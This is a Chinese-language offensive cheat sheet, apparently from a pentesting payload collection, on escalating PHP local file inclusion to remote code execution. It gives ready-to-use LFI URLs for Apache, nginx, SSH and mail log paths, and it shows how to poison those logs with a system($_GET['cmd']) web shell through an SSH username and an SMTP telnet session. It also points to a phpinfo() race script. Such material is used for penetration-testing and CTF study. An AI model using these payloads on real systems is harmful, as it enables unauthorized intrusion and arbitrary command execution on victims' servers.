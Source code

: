 ## 通过phpinfo()进行LFI到RCE

PHPinfo()显示任何变量的内容，例如**$_GET**、**$_POST**和**$_FILES**。

> 通过多次向PHPInfo脚本上传并仔细控制读取，可以检索临时文件名并在LFI脚本中指定该临时文件名。

使用脚本[phpInfoLFI.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

## 通过受控日志文件进行LFI到RCE

只需通过请求服务（Apache、SSH等）附加您的PHP代码到日志文件中，然后包含日志文件。

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

### 通过SSH进行RCE

尝试使用PHP代码作为用户名登录到盒子上：`<?php system($_GET["cmd"]);?>`。

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

然后在Web应用程序中包含SSH日志文件。

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### 通过邮件进行RCE

首先使用开放的SMTP发送电子邮件，然后包含位于`http://example.com/index.php?page=/var/log/mail`的日志文件。

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```
